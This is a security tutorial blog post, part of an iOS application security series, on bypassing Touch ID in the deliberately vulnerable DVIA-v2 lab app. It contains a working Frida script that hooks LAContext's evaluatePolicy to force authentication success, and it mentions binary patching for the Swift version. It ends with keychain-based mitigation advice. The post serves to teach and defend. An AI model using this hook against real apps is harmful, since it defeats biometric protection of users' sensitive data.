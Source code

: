 ```yaml
---
layout: post
title: "iOS Application Security Part 50 - Touch ID Bypass with Frida"
date: 2018-07-26 07:48
comments: true
tags: security 
---
```

In the previous article, we looked at Runtime Manipulation with Frida. In this article, we will look at how we can bypass Touch ID authentication in certain iOS applications using Frida. We will be performing the tests on the swift version of Damn Vulnerable iOS app which can be downloaded from damnvulnerableiosapp.com.

Open the app and navigate under the section Touch/Face ID Bypass

Authentication can be done in multiple ways, and can use different languages (Objective-C or Swift). One of the ways is to use the LAContext class using the Local Authentication framework. The evaluatePolicy:localizedReason:reply: method from the LAContext class presents a dialog to the user which can ask for the user to confirm the action with biometric authentication through their fingerprint. If the method returns success, the relevant action is performed. However, the action that is performed after authentication is in no way correlated with how the authentication was done. There is no way for the iOS app to determine whether the authentication was performed with a valid fingerprint, or whether the method was hooked. The following code snippet from DVIA-v2 shows the implementation (from the file TouchIDAuthentication.m) using the LAContext class.

<!--more-->

<pre>	+(void)authenticateWithTouchID {

	    LAContext *myContext = [[LAContext alloc] init];
	    NSError *authError = nil;
	    NSString *myLocalizedReasonString = @"Please authenticate yourself";

	    if ([myContext canEvaluatePolicy:LAPolicyDeviceOwnerAuthenticationWithBiometrics error:&authError]) {
	        [myContext evaluatePolicy:LAPolicyDeviceOwnerAuthenticationWithBiometrics
	                  localizedReason:myLocalizedReasonString
	                            reply:^(BOOL success, NSError *error) {
	                                if (success) {
	                                    dispatch_async(dispatch_get_main_queue(), ^{
	                                    [TouchIDAuthentication showAlert:@"Success" withTitle:@"Authentication Successful"];
	                                    });
	                                } else {
	                                    dispatch_async(dispatch_get_main_queue(), ^{
	                                       [TouchIDAuthentication showAlert:@"Error" withTitle:@"Authentication Failed !!"];
	                                    });
	                                }
	                            }];
	    } else {
	        dispatch_async(dispatch_get_main_queue(), ^{
	            [TouchIDAuthentication showAlert:@"Your device doesn't support Touch ID" withTitle:@"Error"];
	        });
	    }
	}

</pre>

It is possible to just hook the evaluatePolicy:localizedReason:reply: method and make it return true. This can be done with the following Frida script.

<pre>	if(ObjC.available) {
		var hook = ObjC.classes.LAContext["- evaluatePolicy:localizedReason:reply:"];
		Interceptor.attach(hook.implementation, {
			onEnter: function(args) {
				var block = new ObjC.Block(args[4]);
				const appCallback = block.implementation;
				block.implementation = function (error,value)  {
					const result = appCallback(1, null);
					return result;
				};
			},
		});
	} 

</pre>

![1]( /images/posts/ios50/1.png)

Now go the Touch/Face ID Bypass -> Objective-C implementation in DVIA-v2 and tap on the fingerprint button.

![2]( /images/posts/ios50/2.PNG)

Now put the incorrect fingerprint. You will see that since the method is hooked, the authentication is successful.

![3]( /images/posts/ios50/3.PNG)

The following function from DVIA-v2 shows the Swift implementation of the same thing. Since this can't be manipulated, it can still be patched and the function flow could be modified to go inside the if loop directly. The patching can be done with Hopper followed by signing with jtool.

<pre>	@IBAction func touchIDTapped(_ sender: Any) {
	        let context = LAContext()
	        var error: NSError?

	        if context.canEvaluatePolicy(.deviceOwnerAuthenticationWithBiometrics, error: &error) {
	            let reason = "Please authenticate yourself"

	            context.evaluatePolicy(.deviceOwnerAuthenticationWithBiometrics, localizedReason: reason) {
	                [unowned self] success, authenticationError in

	                DispatchQueue.main.async {
	                    if success {
	                        DVIAUtilities.showAlert(title: "Success", message: "Authentication Successful", viewController: self)
	                    } else {
	                        DVIAUtilities.showAlert(title: "Error", message: "Authentication Failed", viewController: self)
	                    }
	                }
	            }
	        } else {
	           DVIAUtilities.showAlert(title: "Touch ID not available", message: "Your device doesn't support Touch ID or you haven't configured Touch ID authentication on your device", viewController: self)
	        }
	    }
</pre>

In general, the vulnerability arises from the fact that the authentication and the resulting action after a successful authentication are independent of each other. A better way to securely save the data would be to save the data in the keychain and protect it with appropriate keychain attributes (for e.g ksecattraccessiblewhenpasscodesetthisdeviceonly), which require touch ID or device passcode authentication to access the keychain content. This will make it harder for the attacker to get the data since to gather the information from the keychain the user would actually have to authenticate with Touch ID or enter the passcode, depending on which access control he applied, and also the logic is managed by the OS and not the application. Even though biometric authentication via the Local Authentication framework is easy to implement, it is not recommended to be used for sensitive applications, such as banking or other financial apps.

In the next article, we will look at dumping unencrypted IPAs from the device and dynamic instrumentation on a non-jailbroken device using Frida.